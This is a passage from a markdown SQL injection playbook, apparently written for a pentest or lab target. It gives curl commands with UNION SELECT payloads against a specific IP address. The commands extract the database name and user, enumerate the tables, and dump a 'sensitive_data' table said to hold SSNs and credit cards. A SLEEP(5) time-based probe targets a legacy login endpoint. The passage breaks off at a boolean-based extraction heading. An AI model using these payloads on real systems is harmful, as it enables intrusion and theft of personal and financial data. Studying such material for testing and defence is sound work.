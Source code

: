 
### Extract Database Name

```bash
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT 1,database(),user(),4,5,6,7-- "}'
```

---

### List All Tables

```bash
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=database()-- "}'
```

**Expected Tables:**
- users
- sessions
- files
- sensitive_data
- internal_notes

---

### Extract Sensitive Data Table

```bash
# Get all sensitive data (SSNs, credit cards, etc.)
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT id,user_id,data_type,data_value,created_at,'\''dummy'\'','\''dummy'\'' FROM sensitive_data-- "}'
```

---

## 🕵️ Blind SQL Injection

### Time-Based Detection

```bash
# If response takes 5 seconds, SQLi exists
curl -X POST http://174.138.71.77/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\'' OR SLEEP(5)-- ","password":"x"}'
```

---

### Boolean-Based Extraction
